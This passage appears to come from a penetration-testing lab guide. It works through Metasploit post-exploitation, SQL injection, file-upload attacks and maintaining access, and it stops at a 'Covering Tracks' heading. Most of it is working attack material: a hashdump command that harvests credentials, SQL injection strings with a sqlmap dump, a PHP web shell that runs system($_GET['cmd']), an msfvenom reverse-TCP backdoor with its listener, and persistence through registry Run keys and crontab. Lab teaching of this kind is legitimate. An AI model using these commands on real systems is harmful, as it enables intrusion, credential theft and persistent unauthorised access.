 2. **Post Exploitation**
   ```bash
   # Privilege Escalation
   run post/multi/recon/local_exploit_suggester
   
   # Harvesting credentials
   run post/windows/gather/hashdump
   ```

### B. Web Application Attacks

1. **SQL Injection**
   ```bash
   # Manual testing
   ' OR '1'='1
   ' UNION SELECT null,null,@@version--
   
   # Automated testing
   sqlmap -u "http://target/login.php" --forms --dump
   ```

2. **File Upload Vulnerabilities**
   ```php
   <?php
   echo "Malicious file content";
   system($_GET['cmd']);
   ?>
   ```

## Lab 4: Post Exploitation

### A. Maintaining Access

1. **Backdoor Creation**
   ```bash
   # Generate payload
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > backdoor.exe
   
   # Setup listener
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   ```

2. **Persistence Mechanisms**
   ```bash
   # Windows startup
   reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "Backdoor" /t REG_SZ /d "C:\backdoor.exe"
   
   # Linux cron job
   echo "* * * * * /usr/local/bin/backdoor" >> /etc/crontab
   ```

### B. Covering Tracks
